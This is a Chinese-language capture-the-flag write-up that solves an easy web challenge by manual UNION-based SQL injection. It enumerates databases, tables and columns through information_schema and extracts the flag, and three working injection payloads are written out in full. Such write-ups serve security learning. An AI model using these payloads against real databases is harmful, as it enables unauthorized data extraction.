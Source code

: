 # CNSS_Summer_2023

## [Easy] CNSS Database 1.0

从标题可以推测出这应该是一道sql注入的题目，先输入一个数字看看返回什么，发现返回了一个表的一条记录，然后先测试一下能不能进行联合查询UNION；

![image-20230913194951018](C:\Users\19712\AppData\Roaming\Typora\typora-user-images\image-20230913194951018.png)

发现可以使用UNION，应该就是**手工注入**了，这里使用了一个version( )查询数据库的版本（这里select使用1，2因为由前面的表可知是3列，UNION联合查询需要有相同列数，如果遇到没有题目返回一条记录的话可以从1开始试试）；

![image-20230913195154301](C:\Users\19712\AppData\Roaming\Typora\typora-user-images\image-20230913195154301.png)

之后就查询一下有哪些数据库，group_concat可以链接所有查询到的数据库名，发现有一个熟悉的数据库名cnss；

```sql
-1 UNION select 1,2,(select group_concat(schema_name) from information_schema.schemata);#
```

![image-20230913195910673](C:\Users\19712\AppData\Roaming\Typora\typora-user-images\image-20230913195910673.png)

查询cnss数据库有哪些表，发现有一个wh3re_1s_fl4g的表；

```sql
-1 UNION select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='cnss');#
```

![image-20230913200253906](C:\Users\19712\AppData\Roaming\Typora\typora-user-images\image-20230913200253906.png)

进而查询wh3re_1s_fl4g的表有哪些列名，发现只有fulage这一列；

```sql
-1 UNION select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='wh3re_1s_fl4g');#
```

![image-20230913200448878](C:\Users\19712\AppData\Roaming\Typora\typora-user-images\image-20230913200448878.png)

最后就是查询wh3re_1s_fl4g表中fulage这一列的数据，最后得到flag；

![image-20230913200827655](C:\Users\19712\AppData\Roaming\Typora\typora-user-images\image-20230913200827655.png)
